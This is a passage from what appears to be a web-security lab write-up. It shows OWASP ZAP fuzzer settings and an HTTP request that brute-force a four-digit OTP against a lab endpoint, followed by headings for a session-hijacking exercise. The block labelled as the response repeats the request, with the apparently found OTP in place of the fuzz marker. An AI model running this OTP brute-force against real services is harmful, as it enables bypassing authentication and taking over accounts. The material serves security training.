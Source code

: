 `zaproxy` > `Fuzzer` > `Fuzz Locations` = `Add` = `Type: Numberzz`, `From: 1000`, `To: 9999`, `Increment: 1` > `Message Processors` = `Add` = `Type: Tag Creator`, `Match: Regex: .*failed*.`, `Tag: Failed` > `Start Fuzzer`

`HTTP Request`:
```http
POST https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev/verify HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 165
Origin: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com
Connection: keep-alive
Referer: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev?otp=1234
Cookie: SESSIONID=Z0FBQUFBQm5SeTlpUTdDaFR1b0w5cTVyQ09nWDA2Y2RsSjl2bUFrMXA2T2g2bzJoU3ZScjQ1ZW83V2dQTTVSblFyTUV3T2NpeThOUkpBa0ttYV9wR3VaaFhaUmlBNkhCWmc9PQ==
Host: zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com

{"sessionid":"Z0FBQUFBQm5SeTlpUTdDaFR1b0w5cTVyQ09nWDA2Y2RsSjl2bUFrMXA2T2g2bzJoU3ZScjQ1ZW83V2dQTTVSblFyTUV3T2NpeThOUkpBa0ttYV9wR3VaaFhaUmlBNkhCWmc9PQ==","otp":"§1234§"}📌
```
`HTTP Response:
```http
POST https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev/verify HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 165
Origin: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com
Connection: keep-alive
Referer: https://zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com/dev?otp=1234
Cookie: SESSIONID=Z0FBQUFBQm5SeTlpUTdDaFR1b0w5cTVyQ09nWDA2Y2RsSjl2bUFrMXA2T2g2bzJoU3ZScjQ1ZW83V2dQTTVSblFyTUV3T2NpeThOUkpBa0ttYV9wR3VaaFhaUmlBNkhCWmc9PQ==
Host: zl6h2bz2yh.execute-api.ap-southeast-1.amazonaws.com

{"sessionid":"Z0FBQUFBQm5SeTlpUTdDaFR1b0w5cTVyQ09nWDA2Y2RsSjl2bUFrMXA2T2g2bzJoU3ZScjQ1ZW83V2dQTTVSblFyTUV3T2NpeThOUkpBa0ttYV9wR3VaaFhaUmlBNkhCWmc9PQ==","otp":"2999"}🔑
```

---

## Session Security Testing

### Session Hijacking via Cookie Tampering

#### Lab Environment

**Improper Session Management III**
